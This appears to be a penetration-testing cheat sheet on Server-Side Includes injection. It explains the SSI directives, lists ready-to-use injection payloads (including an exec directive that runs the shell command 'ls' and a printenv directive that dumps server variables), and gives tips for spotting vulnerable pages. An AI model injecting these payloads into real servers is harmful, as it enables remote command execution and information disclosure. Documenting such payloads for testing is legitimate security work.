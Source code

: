 
## Primary SSI directives 

- **config** : The config command is a control directive to modify various SSI components. Includes parameters such as the default server error message (errmsg), file size format (sizefmt), and the date & time format (timefmt)

- **echo** : Inserts SSI and CGI environment variables values while including optional encoding arguments.

- **exec** : Executes an external application, following which the execution output is inserted into the document. This control directive supports cmd arguments from any client app or a cgi program.

- **flastmod**: The last time and date a specified file was modified. It accepts both a virtual path (virtual) and a relative pathname (file) as arguments for locating the document on the server.

- **include**:  Inserts text from another document into the current file. It also accepts file and virtual arguments to locate the document.

- **printenv**  Displays all environment variables within the server.

- **set** : A control directive that sets a server-side variable to the specified value.

## Payloads 

``` 
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```


## Detection 

- checking for extensions such as .shtml, .shtm, or .stm. That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

- It is possible to check if the application is properly validating input fields data by inserting characters that are used in SSI directives, like:
< ! # = / . " - > and [a-zA-Z0-9]

